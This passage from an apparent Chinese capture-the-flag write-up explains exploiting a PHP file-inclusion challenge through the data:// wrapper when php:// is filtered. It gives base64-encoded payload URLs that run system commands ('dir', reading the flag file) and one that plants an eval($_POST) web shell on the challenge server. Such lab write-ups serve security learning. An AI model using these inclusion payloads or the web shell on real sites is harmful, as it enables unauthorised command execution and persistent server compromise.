 然后查看flag

![8f1f7571cd26368cbe3ef524ac709ce7.png](./攻防世界Web-WP/28.png)

**第二种（data://伪协议执行命令利用）**

该题过滤了php://伪协议，可以使用其他协议，使用data://伪协议
*data://伪协议*
php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是php代码，就会执行代码。
使用方法：
> data://text/plain;base64,xxxx(base64编码后的数据)

<?php system("dir")?> base64编码后使用
> http://111.198.29.45:32386/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJkaXIiKT8%2b

注意编码后+号要用url编码
<?php system("cat fl4gisisish3r3.php")?> base64编码后使用
> http://111.198.29.45:32386/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJjYXQgZmw0Z2lzaXNpc2gzcjMucGhwIik/Pg==

查看源代码可得到flag。

![bf9fad42f730d52e509a19a34852fd96.png](./攻防世界Web-WP/29.png)

**第三种方法(data://伪协议传木马）**

<?php eval($\_POST[xiaohua]); ?> base64加密后拼接

> http://111.198.29.45:32386/?page=data://text/plain/;base64,PD9waHAgZXZhbCgkX1BPU1RbeGlhb2h1YV0pOyA/Pg==
